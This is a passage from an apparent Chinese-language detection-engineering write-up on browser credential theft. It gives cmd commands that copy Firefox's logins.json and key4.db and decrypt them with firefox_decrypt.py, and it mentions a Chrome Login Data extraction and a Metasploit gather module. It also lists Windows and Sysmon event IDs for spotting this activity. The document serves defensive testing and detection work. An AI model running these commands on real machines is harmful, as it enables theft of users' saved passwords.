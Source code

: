 - **说明**：
  - 复制Chrome的`Login Data`文件，查询凭据并解密。
- **权限**：普通用户权限。

### 测试案例3：提取Firefox凭据
通过读取Firefox的`logins.json`和`key4.db`文件，使用解密工具提取凭据。

**命令**：
```cmd
dir "%APPDATA%\Mozilla\Firefox\Profiles\*.default-release"
copy "%APPDATA%\Mozilla\Firefox\Profiles\*.default-release\logins.json" C:\Temp\
copy "%APPDATA%\Mozilla\Firefox\Profiles\*.default-release\key4.db" C:\Temp\
```

**工具**：使用`firefox_decrypt.py`（https://github.com/unode/firefox_decrypt）：
```bash
python3 firefox_decrypt.py -d C:\Temp
```

- **说明**：
  - 提取并解密Firefox保存的凭据。
- **权限**：普通用户权限。

## 检测日志

### 数据来源
- Windows安全日志：
  - 事件ID4663：对象访问，记录对凭据文件的读取（需启用对象访问审计）。
  - 事件ID4688：进程创建，记录可疑工具（如`cmd.exe`、`powershell.exe`）的执行。
- Sysmon日志：
  - 事件ID1：进程创建，记录命令行参数。
  - 事件ID11：文件访问，记录对`Login Data`、`logins.json`、`key4.db`等的读取。
  - 事件ID15：文件流创建，记录凭据文件被复制或导出。
- 文件监控：
  - 检测对浏览器凭据文件的异常访问。
- 进程监控：
  - 检测异常进程（如Metasploit、Python脚本）访问浏览器数据。
- 网络监控：
  - 检测解密后的凭据用于异常登录尝试。

### 限制
- 事件ID4663需启用对象访问审计，否则无法记录文件访问。
- WindowsServer2016以下版本可能不记录详细命令行参数。
- 正常浏览器操作可能触发误报，需建立行为基线。

## 测试复现

### 环境准备
- 靶机：WindowsServer2016或Windows10
- 浏览器：Chrome、Firefox、Opera（已保存凭据）
- 账户：普通用户账户（如TEST\user1）
- 工具：
  - Metasploit（post/windows/gather/credentials/chrome）
  - Python（pywin32、sqlite3、firefox_decrypt.py）
  - Sysmon（可选，日志收集）
